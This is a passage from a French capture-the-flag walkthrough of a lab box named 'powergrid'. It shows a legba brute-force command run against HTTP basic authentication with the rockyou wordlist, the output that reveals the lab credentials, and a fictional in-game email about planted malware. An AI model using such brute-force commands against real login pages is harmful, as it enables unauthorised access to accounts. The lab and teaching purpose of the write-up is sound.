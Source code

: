 ```console
2Ep1IRuadQIrUUKIRCcwVPVOsl4LqwaeEUvzGP4D03n1KAvu/nRSHqbUWRVbGzKX
H5pQlHIUPPoaYR+soXTH2FZDtBwy8oyBMxAxgoFjPOoxmVK/5DUE8etTB5bItE0f
/cv8gWGtaPsk50Fvu+pXfKfgEOX1769lwuXthNlzSsuPa5LjDSSv6Rii0R6ELuK0
Runa+4YCOumR4kK1pwXxPJAQcDvhRDp/u/+NIZB72VEiJUv6RDkkAojAhtxzm2kr
T+48miG6/ZX3hhypEw==
-----END CERTIFICATE-----
subject=CN=powergrid
issuer=CN=powergrid
---
--- snip ---
```

Le nom d'hôte est `powergrid` sans suffixe. Ça semble donc peu probable.

Revenons à notre brute-force. Ici, je me concentre sur l'authentification basic. Pour cela, j'ai eu recours à `legba` que je n'avais jamais utilisé :

```console
$ docker run -v /tmp:/data --network host -it evilsocket/legba:latest \
  http.basic -I password --username /data/users.txt --password /data/rockyou.txt \
  --target http://192.168.56.107/zmail/
legba v0.11.0

[INFO ] target: http://192.168.56.107/zmail/
[INFO ] username -> wordlist /data/users.txt
[INFO ] password -> wordlist /data/rockyou.txt

[INFO ] tasks=4 mem=34.4 MiB targets=1 attempts=57377560 done=6133 (0.01%) speed=5652 reqs/s
[INFO ] tasks=4 mem=34.9 MiB targets=1 attempts=57377560 done=12245 (0.02%) speed=6113 reqs/s
[INFO ] tasks=4 mem=35.2 MiB targets=1 attempts=57377560 done=17551 (0.03%) speed=5303 reqs/s
[INFO ] tasks=4 mem=35.2 MiB targets=1 attempts=57377560 done=23634 (0.04%) speed=6060 reqs/s
--- snip ---
[INFO ] [2025-07-08 15:42:03] (http) <http://192.168.56.107/zmail/> username=p48 password=electrico
--- snip ---
```

J'ai perdu du temps aussi, car j'avais utilisé le module `http` au lieu de `http.basic`... Heureusement `tshark` m'a aidé à comprendre mon erreur en observant les requêtes HTTP transmises.

Une fois connecté avec `p48` / `electrico`, je les utilise dans le navigateur et me retrouve face à un webmail `RoundCube`.

La page de login demande des identifiants. Je saisis les mêmes et peux lire un email :

```
Subject    Important
From    <root@powergrid>
Date    2020-05-19 21:24

Listen carefully. We are close to our attack date. Nothing is going to stop us now.
Our malware is heavily planted in each power grid across Europe.
All it takes is a signal from this server after the timer has stopped, and nothing is going to stop that now.
For information, I have setup a backup server located on the same network - you shouldn't need to access it for now,
but if you do, scan for its local IP and use the SSH key encrypted below (it is encrypted with your GPG key, by the way).
The backup server has root access to this main server - if you need to make any backups, I will leave it for you to work out how.
I haven't got time to explain - we are too close to launching our hack.

-----BEGIN PGP MESSAGE-----

hQIMA1WQQb/tVNOiARAAub7X4CF6QEiz1OgByDAO4xKwLCM2OqkrEVb09Ay2TVVr
2YY2Vc3CjioPmIp1jqNn/LVLm1Tbuuqi/0C0fbjUTIs2kOWqSQVVpinvLPgD4K+J
OykGxnN04bt9IrJddlkw3ZyZUjCBG46z+AS1h+IDCRezGz6Xq9lipFZwybSmL89J
pijIYF9JAl5PeSQK9kTHOkAXIsLUPvg8fsfa9UqGTZfxS6VhlNmsoFDf4mU6lSMl
```